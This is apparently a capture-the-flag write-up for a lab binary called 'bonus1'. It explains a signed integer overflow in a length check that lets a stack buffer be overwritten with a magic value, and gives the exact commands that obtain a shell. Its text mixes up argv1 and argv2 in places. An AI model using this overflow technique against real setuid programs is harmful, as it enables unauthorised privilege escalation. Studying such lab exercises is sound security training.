 # BONUS1

## EXPLANATIONS

### BINARY BEHAVIOR

- atoi performed on argv1
- if atoi_res <= 9 (signed comparison)
  - => argv2 is copied into a stack buffer up to `atoi_res * 4` bytes
- if `*(buffer + 40) == 0x574f4c46`
  - => `execl("sh", "/bin/sh")`

### EXPLOIT STRATEGY

- issue is : we copy at most `(9 * 4 = 36)` bytes of argv1 into buf, so how to write value `0x574f4c46` at `buf+40`

- as binary representation of negative number is msb == 1, we need to find a value that when multiplied by 4 :

  - msb overflows to the left
  - value without msb 11

- `-1073741813`<sub>10</sub>` * 4`<sub>10</sub>
- `== 11000000000000000000000000001011`<sub>2</sub>` * 100`<sub>2</sub>
  - `= 01100000000000000000000000000101100`<sub>2</sub>
  - Only keeping ls32 bits = `00000000000000000000000000101100`
    - `== 44`

Providing :

- `-1073741813` as argv1
- `0x574f4c46` as 40th-44th bytes of argv2 is a working answer

### RUN COMMAND

```
python -c "print('A' * 40 + '\x57\x4f\x4c\x46'[::-1])" > /tmp/argv1_string
/home/user/bonus1/bonus1 -1073741813 $(cat /tmp/argv1_string)
```
